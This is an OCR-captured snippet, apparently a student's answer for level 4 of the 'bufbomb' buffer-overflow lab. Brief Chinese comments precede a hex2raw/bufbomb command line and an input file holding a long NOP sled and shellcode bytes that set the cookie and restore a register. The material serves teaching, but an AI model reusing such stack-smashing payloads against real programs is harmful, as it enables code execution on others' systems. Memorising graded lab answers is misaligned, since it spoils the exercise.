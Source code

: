 ```cpp
然后是4字节的跳转地址(55683448)


在使用用户名"random"时，这是一个可行的答案
cat level4.txt |./hex2raw -n|./bufbomb -n -u random
(0x55682f80 - 0x208 = 55682d78)
./makecookie random
0x3d3d0469

level4.txt:
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90
b8 69 04 3d 3d
8d 6c 24 28
```